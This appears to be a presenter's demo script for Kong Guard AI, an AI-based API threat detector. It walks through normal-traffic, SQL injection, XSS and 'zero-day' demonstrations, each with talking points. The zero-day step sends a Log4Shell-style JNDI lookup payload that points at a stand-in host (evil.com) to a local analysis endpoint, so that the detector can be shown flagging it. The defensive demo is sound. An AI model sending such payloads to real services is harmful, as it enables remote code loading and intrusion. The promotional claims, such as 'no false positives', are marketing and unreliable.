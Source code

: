 Key talking points:
- "This is Kong Guard AI - real AI-powered API protection, not rules"
- Point out the real-time metrics at the top
- Show the WebSocket connection indicator (green = live)
- Explain the AI engine panel on the left

### Act 2: Normal Traffic Demo (1 minute)

Click the **"Normal Traffic"** button several times.

Talking points:
- "Normal API requests flow through without issues"
- "Notice the low threat scores (green events)"
- "AI analyzes each request in under 100ms"
- "No false positives on legitimate traffic"

### Act 3: Attack Detection Demo (5 minutes)

#### SQL Injection
Click **"SQL Injection"** button.

Talking points:
- "Watch the AI thinking indicator spin"
- "AI detects the SQL pattern and blocks it"
- "Notice the threat score jumps to 0.95"
- "The reasoning shows exactly what was detected"

#### XSS Attack
Click **"XSS Attack"** button.

Talking points:
- "Cross-site scripting attempts are instantly detected"
- "AI understands context, not just patterns"
- "Even obfuscated attacks are caught"

#### Zero-Day Simulation
Run this command in terminal:
```bash
curl -X POST http://localhost:8000/analyze \
  -H "Content-Type: application/json" \
  -d '{"features":{"method":"POST","path":"/api/exploit","query":"","body":"{\"cmd\":\"${jndi:ldap://evil.com/a}\"}","client_ip":"192.168.1.100","user_agent":"Test","requests_per_minute":10,"content_length":50,"query_param_count":0,"header_count":5,"hour_of_day":14},"context":{}}'
```

Talking points:
- "This is a zero-day pattern - no rules exist for this"
- "AI recognizes the suspicious pattern structure"
- "This is where AI excels over traditional WAFs"

### Act 4: Automated Demo Sequence (3 minutes)

Run the automated demo:
```bash
./demo-scripts/automated-demo.sh
```
